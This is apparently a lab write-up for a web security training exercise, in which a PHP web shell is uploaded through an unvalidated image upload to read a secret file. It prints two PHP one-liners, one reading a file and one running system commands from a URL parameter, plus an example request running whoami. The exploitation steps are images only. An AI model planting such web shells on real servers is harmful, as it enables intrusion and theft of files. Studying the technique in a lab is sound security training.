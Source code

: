 # Remote code execution via web shell upload
# Objective
This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.\
\
To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.\
\
You can log in to your own account using the following credentials: `wiener:peter`
# Solution
## Analysis
### PHP basic one-liners
```php
<?php echo file_get_contents('/path/to/target/file'); ?>

<?php echo system($_GET['command']); ?>
GET /example/exploit.php?command=whoami HTTP/1.1
```

### Upload request example
|![](Images/image.png)|
|:--:| 
| *Test* |

## Exploitation
|![](Images/image-1.png)|
|:--:| 
| *PHP code* |
|![](Images/image-2.png)|
| *Successful PHP payload upload* |
|![](Images/image-3.png)|
| *Path to uploaded file* |
|![](Images/image-4.png)|
| *Triggering uploaded PHP file* |
